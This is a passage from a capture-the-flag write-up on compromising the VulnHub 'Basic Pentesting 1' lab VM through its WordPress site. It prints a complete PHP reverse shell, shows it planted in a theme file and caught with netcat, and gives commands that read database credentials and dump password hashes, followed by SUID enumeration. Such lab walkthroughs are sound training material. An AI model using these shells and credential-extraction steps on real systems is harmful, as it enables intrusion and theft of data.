   5   exploit/osx/local/rootpipe                                     2015-04-09       great      Yes    Apple OS X Rootpipe Privilege Escalation
   6   exploit/windows/ftp/easyftp_cwd_fixret                         2010-02-16       great      Yes    EasyFTP Server CWD Command Stack Buffer Overflow
   7   exploit/freebsd/local/rtld_execl_priv_esc                      2009-11-30       excellent  Yes    FreeBSD rtld execl() Privilege Escalation
   8   auxiliary/scanner/kademlia/server_info                                          normal     No     Gather Kademlia Server Information
   9   exploit/unix/webapp/joomla_akeeba_unserialize                  2014-09-29       excellent  Yes    Joomla Akeeba Kickstart Unserialize Remote Code Execution
   10  exploit/windows/fileformat/ms12_005                            2012-01-10       excellent  No     MS12-005 Microsoft Office ClickOnce Unsafe Object Package Handling Vulnerability
   11  exploit/unix/webapp/php_xmlrpc_eval                            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution
   12  exploit/unix/http/pihole_dhcp_mac_exec                         2020-03-28       good       Yes    Pi-Hole DHCP MAC OS Command Execution
   13  exploit/linux/misc/quest_pmmasterd_bof                         2017-04-09       normal     Yes    Quest Privilege Manager pmmasterd Buffer Overflow
   14  exploit/windows/http/sws_connection_bof                        2012-07-20       normal     Yes    Simple Web Server Connection Header Buffer Overflow
   15  exploit/multi/php/wp_duplicator_code_inject                    2018-08-29       manual     Yes    Snap Creek Duplicator WordPress plugin code injection
   16  exploit/multi/http/wp_db_backup_rce                            2019-04-24       excellent  Yes    WP Database Backup RCE
   17  exploit/windows/fileformat/winrar_name_spoofing                2009-09-28       excellent  No     WinRAR Filename Spoofing
   18  post/windows/gather/credentials/razer_synapse                                   normal     No     Windows Gather Razer Synapse Password Extraction
   19  exploit/multi/http/wp_ait_csv_rce                              2020-11-14       excellent  Yes    WordPress AIT CSV Import Export Unauthenticated Remote Code Execution
   20  exploit/unix/webapp/wp_admin_shell_upload                      2015-02-21       excellent  Yes    WordPress Admin Shell Upload
   21  auxiliary/gather/wp_all_in_one_migration_export                2015-03-19       normal     Yes    WordPress All-in-One Migration Export
   22  exploit/unix/webapp/wp_asset_manager_upload_exec               2012-05-26       excellent  Yes    WordPress Asset-Manager PHP File Upload Vulnerability
   23  auxiliary/scanner/http/wordpress_login_enum                                     normal     No     WordPress Brute Force and User Enumeration Utility
   24  auxiliary/scanner/http/wordpress_cp_calendar_sqli              2015-03-03       normal     No     WordPress CP Multi-View Calendar Unauthenticated SQL Injection Scanner
   25  auxiliary/scanner/http/wp_chopslider_id_sqli                   2020-05-12       normal     No     WordPress ChopSlider3 id SQLi Scanner
```

<p></p>
Looking through the results number 20 looks interesting, lets find out some more info on it using the following command:
<p></p>

```
info 20
```

<p></p>
Which outputs:
<p></p>

```
msf6 > info 20

       Name: WordPress Admin Shell Upload
     Module: exploit/unix/webapp/wp_admin_shell_upload
   Platform: PHP
       Arch: php
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2015-02-21

Provided by:
  rastating

Available targets:
  Id  Name
  --  ----
  0   WordPress

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD                    yes       The WordPress password to authenticate with
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The base path to the wordpress application
  USERNAME                    yes       The WordPress username to authenticate with
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module will generate a plugin, pack the payload into it and 
  upload it to a server running WordPress providing valid admin 
  credentials are used.
```

<p></p>
We can see the description at the bottom of the output and this looks like it could be useful so lets use it, to do this we enter the following command:
<p></p>

```
use 20
```

<p></p>
next we are presented with a changed command line so we need to enter 'show options' and are presented with the following:
<p></p>

```
msf6 > use 20
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.125.135  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /secret          yes       The base path to the wordpress application
   USERNAME   admin            yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.125.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

<p></p>
Yours will have blank space next to most of the fields, IOT change them you need to enter set + feild + value ie.
<p></p>

```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password admin
password => admin

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 192.168.125.135
rhosts => 192.168.125.135

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /secret
targeturi => /secret

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
username => admin

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 192.168.125.134
lhost => 192.168.125.134
```

<p></p>
Then simply enter exploit and hopefully you are presented with a shell instead of an error.
<p></p>


```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.125.134:4444 
[*] Authenticating with WordPress using admin:admin...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: 4f8184143b
[-] Failed to upload plugin AFyvBhdZph
[-] Exploit aborted due to failure: unexpected-reply: Failed to upload the payload
[*] Exploit completed, but no session was created.
```

<p></p>
But hey, this is why you have different tools in your arsenel because your normal methods may not always work, so I will show you how to do a simple php reverse shell upload and hopefully we can get in that way (if msf worked for you congrats, read through the following if you want otherwise skip to the next part).
<p></p>
Since msf didn't work I will go through usisng a preconfigured php reverse shell (if you want to learn how to create your own shell refer to my Mr Robot <a href="https://github.com/Shadow-Admins/Cyber_Club/tree/main/Starting_Point/VulnHub/MrRobot" rel="nofollow">writeup</a>) to start we need to obtain the reverse shell script, if you are using Parrot or kali it comes on the distro by defualt otherwise you can download it from <a href="https://github.com/pentestmonkey/php-reverse-shell" rel="nofollow">here</a> to download it run the following command:
<p></p>

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
```

<p></p>
If you are using Parrot or kali it is located in:
<p></p>

```
/usr/share/webshells/php/php-reverse-shell.php
```

<p></p>
You can create a copy of this file in your working directory by using the following command:
<p></p>

```
cp /usr/share/webshells/php/php-reverse-shell.php .
```

<p></p>
Once we have a fresh copy of this file we want to edit it with a next editor like nano, vim,vi etc. Lets have a look at the script.
<p></p>

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
```

<p></p>
Looking through this script there are only two things we need to change.
<p></p>

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

<p></p>
This part is found at the very top of the file, we need to change this to our ip address and a port that we pick. ie.
<p></p>

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.125.134';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

<p></p>
Once we have changed these two parts in the script we need to upload it to the site, to do this we need to navigate to appearance editor.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/bddaddee80dd9cfed30392832bf33155feede284/Starting_Point/VulnHub/BasicPentesting1/images/wpeditor.png"><br>
</div>
<p></p>
We then need to select the theme to edit, I will use the twentyfifteen theme.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/bddaddee80dd9cfed30392832bf33155feede284/Starting_Point/VulnHub/BasicPentesting1/images/wpselecttheme.png"><br>
</div>
<p></p>
Next we need to select the .php file we want to edit, I will be editing the 404.php file.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/bddaddee80dd9cfed30392832bf33155feede284/Starting_Point/VulnHub/BasicPentesting1/images/wpthemefile.png"><br>
</div>
<p></p>
And finally we need to delete all the existing code in the file and replace it with out php reverse shell code.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/c248ddd6e4649113df59ee387e6e9725e493612b/Starting_Point/VulnHub/BasicPentesting1/images/wpphpupload.png"><br>
</div>
<p></p>
Once we have coppied our shell script we need to click update file, this is all we need to do with the website all we need to do now is set up a listner on our machine IOT catch the reverse shell and then navigate to the reverse shell file in our browser to initiate the connection. Lets set up our listner, we are going to use netcat to do this in our terminal, the command we use is:
<p></p>

```
nc -nvlp 1337
```

<p></p>
Once we run this it looks like the program hangs, this is because it is waiting for a connection which we will initiate in the next step. First lets go over what this command is doing. The <kbd>-n</kbd> flag is telling nc to only pay attention to numeric-only IP addresses, no DNS the <kbd>-v</kbd> flag is telling nc to output verbose information, the <kbd>-l</kbd> flag is telling nc to be in listen mode, waiting for inbound connections and the <kb>-p</kb> flag is telling nc local port number to listen on.
<p></p>
Now that we have our listner waiting for a connection lets initiate that by navigating to the 404.php file that we edited earlier. To do this we will navigate to the following address:
<p></p>

```
192.168.125.135/secret/wp-content/themes/twentyfifteen/404.php
```

<p></p>
When we navigate to this website it looks like it hangs, however if we change back to our terminal we can see that something has happened to our nc listner.
<p></p>

```
❯ nc -nvlp 1337
listening on [any] 1337 ...
connect to [192.168.125.134] from (UNKNOWN) [192.168.125.135] 46210
Linux vtcsec 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:43:53 up 22 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

<p></p>
We can see that we have successfully gained access to our target VM! But what do we need to do now? The first thing I want to do is get a propper TTY shell, I will then want to enumerate the system as I know from the challenge description that the only flag is located in the root folder and I will need to carry out priveledge escalation IOT access it.
<p></p>
Lets carry out our first task of gaining a propper TTY shell as usual lets reference one of my favourite sites <a href="https://book.hacktricks.xyz/shells/shells/full-ttys" rel="nofollow">HackTricks</a> to see how to get a full TTY:
<p></p>

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

<p></p>
Above are the commands it gives for creating a full TTY shell so lets enter them and see how it changes our shell. After entering the first line of commands we can see how our comman line changes.
<p></p>

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@vtcsec:/$ 
```

<p></p>
The second line of code is to make it so you have tab auto complete (this is optional and I rarely do it however its up to you).
<p></p>
Now that we have a shell we can begin enumerating it to find a route to carry out priv esc. Again refer to <a href="https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist" rel="nofollow">HackTricks linux priv esc checklist</a> and <a href="https://book.hacktricks.xyz/linux-unix/privilege-escalation" rel="nofollow">HackTricks linux priv esc commands</a>. These two sites explain to you the manual way to enumerate a system we will use a couple of these commands however I am going to show you how to run a script to automatically enumerate the system.
<p></p>
I am including this part as a bit of bonus knowledge as it leads to a dead end however I wanted to wrap up word press hacking and what to do post exploitation, that is enumerating the database to pull usernames and passwords. (feel free to go over this or skip)
<p></p>
<details>
  <summary>WordPress database user/pass extraction</summary>
<p></p>
This information again comes from the HackTricks page on <a href="https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#post-exploitation" rel="nofollow">WordPress</a>. The first thing we need to do is navigate to where the wordpress files are located so we can read the wp-config.php file. This file is located at:
<p></p>

```
/var/www/html/secret/wp-content.php
```

<p></p>
Now we know where it is located we can read it to get the information we need.
<p></p>

```
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wp_myblog');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'arootmysqlpass');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define('AUTH_KEY',         'put your unique phrase here');
define('SECURE_AUTH_KEY',  'put your unique phrase here');
define('LOGGED_IN_KEY',    'put your unique phrase here');
define('NONCE_KEY',        'put your unique phrase here');
define('AUTH_SALT',        'put your unique phrase here');
define('SECURE_AUTH_SALT', 'put your unique phrase here');
define('LOGGED_IN_SALT',   'put your unique phrase here');
define('NONCE_SALT',       'put your unique phrase here');

/**#@-*/

/**
 * WordPress Database Table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix  = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the Codex.
 *
 * @link https://codex.wordpress.org/Debugging_in_WordPress
 */
define('WP_DEBUG', false);

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
	define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');
```

<p></p>
And this is the important information we need:
<p></p>

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wp_myblog');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'arootmysqlpass');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

<p></p>
Now that we have the database information we can input it into the mysql command supplied by HackTricks.
<p></p>

```
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```

<p></p>
Inputting the information from the file the command looks like this:
<p></p>

```
mysql -u root --password=arootmysqlpass -h localhost -e "use wp_myblog;select concat_ws(':', user_login, user_pass) from wp_users;"
```

<p></p>
Which outputs:
<p></p>

```
www-data@vtcsec:/var/www/html/secret$ mysql -u root --password=arootmysqlpass -h localhost -e "use wp_myblog;select concat_ws(':', user_login, user_pass) from wp_users;"
<log;select concat_ws(':', user_login, user_pass) from wp_users;"            
mysql: [Warning] Using a password on the command line interface can be insecure.
+------------------------------------------+
| concat_ws(':', user_login, user_pass)    |
+------------------------------------------+
| admin:$P$BAJWheLsI9IEVX0o4/5OBbGo2n4YuD1 |
+------------------------------------------+
```

<p></p>
Only the admin user we found previously was returned, we could decrypt the password however we already know that the password is 'admin' so this is a dead end for us, however its just more knowledge for you.
</details>
<p></p>
Lets begin our enumeration by looking for what users are on this system.
<p></p>

```
www-data@vtcsec:/var/www/html/secret$ cd /home
cd /home
www-data@vtcsec:/home$ ls
ls
marlinspike
www-data@vtcsec:/home$ 
```

<p></p>
We can see that there is a user called marlinspike lets see if we can access his folder and see if anything of use is in there.
<p></p>

```
www-data@vtcsec:/home$ cd marlinspike
cd marlinspike
www-data@vtcsec:/home/marlinspike$ ls
ls
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz.bak
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backdoored_proftpd-1.3.3c
examples.desktop
latest.tar.gz
proftpd-1.3.3c
proftpd-1.3.3c.tar.bz2
proftpd-1.3.3c.tar.bz2.bak
wordpress
```

<p></p>
Lets look at everything
<p></p>

```
www-data@vtcsec:/home/marlinspike$ ls -a *
ls -a *
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz
046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz.bak
examples.desktop
latest.tar.gz
proftpd-1.3.3c.tar.bz2
proftpd-1.3.3c.tar.bz2.bak

Desktop:
.  ..

Documents:
.  ..

Downloads:
.  ..  046e85f6fe460de94fd46198feef4d07-backdoored_proftpd-1.3.3c.tar.gz

Music:
.  ..

Pictures:
.  ..

Public:
.  ..

Templates:
.  ..

Videos:
.  ..

backdoored_proftpd-1.3.3c:
.		README.IPv6	     config.h.in    libtool
..		README.LDAP	     config.log     locale
.autom4te.cfg	README.PAM	     config.status  ltmain.sh
.libs		README.Solaris2.5x   config.sub     m4
COPYING		README.Unixware      configure	    modules
CREDITS		README.capabilities  configure.in   proftpd
ChangeLog	README.classes	     contrib	    proftpd.pc
INSTALL		README.controls      doc	    proftpd.spec
Make.rules	README.cygwin	     ftpcount	    sample-configurations
Make.rules.in	README.facl	     ftpdctl	    src
Makefile	README.modules	     ftpscrub	    stamp-h
Makefile.in	README.ports	     ftpshut	    stamp-h.in
NEWS		RELEASE_NOTES	     ftptop	    tests
README		acconfig.h	     ftpwho	    utils
README.AIX	aclocal.m4	     include
README.DSO	config.guess	     install-sh
README.FreeBSD	config.h	     lib

proftpd-1.3.3c:
.		README.IPv6	     config.h.in    libtool
..		README.LDAP	     config.log     locale
.autom4te.cfg	README.PAM	     config.status  ltmain.sh
.libs		README.Solaris2.5x   config.sub     m4
COPYING		README.Unixware      configure	    modules
CREDITS		README.capabilities  configure.in   proftpd
ChangeLog	README.classes	     contrib	    proftpd.pc
INSTALL		README.controls      doc	    proftpd.spec
Make.rules	README.cygwin	     ftpcount	    sample-configurations
Make.rules.in	README.facl	     ftpdctl	    src
Makefile	README.modules	     ftpscrub	    stamp-h
Makefile.in	README.ports	     ftpshut	    stamp-h.in
NEWS		RELEASE_NOTES	     ftptop	    tests
README		acconfig.h	     ftpwho	    utils
README.AIX	aclocal.m4	     include
README.DSO	config.guess	     install-sh
README.FreeBSD	config.h	     lib

wordpress:
.		 wp-admin	       wp-includes	  wp-signup.php
..		 wp-blog-header.php    wp-links-opml.php  wp-trackback.php
index.php	 wp-comments-post.php  wp-load.php	  xmlrpc.php
license.txt	 wp-config-sample.php  wp-login.php
readme.html	 wp-content	       wp-mail.php
wp-activate.php  wp-cron.php	       wp-settings.php
```

<p></p>
Nothing that will help us here, lets now look for binaries with SUID permissions. The two commands we will look at are:
<p></p>

```
find / -perm -u=s -type f 2>/dev/null
```

<p></p>
Which outputs:
<p></p>

```
www-data@vtcsec:/home/marlinspike$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/sbin/pppd
/bin/ping6
/bin/fusermount
/bin/umount
/bin/su
/bin/ping
/bin/mount
/bin/ntfs-3g
```

<p></p>
Or:
<p></p>

```
find / -perm -4000 2>/dev/null
```

<p></p>
Which outputs:
<p></p>

```
www-data@vtcsec:/home/marlinspike$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/sbin/pppd
/bin/ping6
/bin/fusermount
/bin/umount
/bin/su
/bin/ping
/bin/mount
/bin/ntfs-3g
```

<p></p>
You can use either one, one key file sticks out to me, but you can look at <a href="https://gtfobins.github.io/" rel="nofollow">GTFOBins</a> to test for binary exploits for each of these.
For now we will move onto the automated script I discussed earlier, and that is linPEAS. 










</details>